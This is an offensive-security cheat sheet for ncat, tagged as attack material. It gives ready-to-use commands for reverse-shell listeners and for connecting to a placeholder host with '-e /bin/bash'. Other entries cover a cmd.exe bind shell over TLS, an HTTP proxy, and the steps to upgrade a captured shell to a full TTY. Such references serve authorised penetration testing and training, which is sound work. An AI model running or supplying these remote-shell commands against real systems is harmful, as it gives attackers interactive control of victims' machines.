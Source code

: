 # ncat

% ncat
#plateform/linux #target/remote  #cat/ATTACK/LISTEN-SERVE 

## help
```
https://nmap.org/ncat/guide/index.html
```

## reverse - linux listener
```
rlwrap -cAr nc -lnvp <lport>
```

## reverse - linux listener (TLS)
```
openssl req -new -x509 -keyout test-key.pem -out test-cert.pem.; rlwrap -cAr nc -lnvp --ssl --ssl-cert test-cert.pem --ssl-key test-key.pem <lport>
```

## reverse - linux binder
#plateform/linux
```
ncat -Cnv <ip> <port> -e /bin/bash
```

## reverse - linux binder (TLS)
#plateform/linux
```
ncat -Cnv --ssl <ip> <port> -e /bin/bash
```

## ncat bind shell ssl filtered
#plateform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat --exec cmd.exe --allow <allowed_ip> -vnl <port> --ssl
```

## ncat bind shell ssl connection
#plateform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat -v <ip> <port> --ssl
```

## ncat HTTP WEB proxy
#plateform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat --listen --proxy-type http <port>
```


## full tty (1)  
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

## full tty (2)
```
CTRL+Z
``` 

## full tty (3)
```
stty raw -echo ; fg
```

## full tty (4)
TERM=screen
```
export SHELL=/bin/bash; export TERM=xterm-256color ; stty rows <ROWS|38> cols <COLS|116>; reset
```

## no tty
```
see expect
```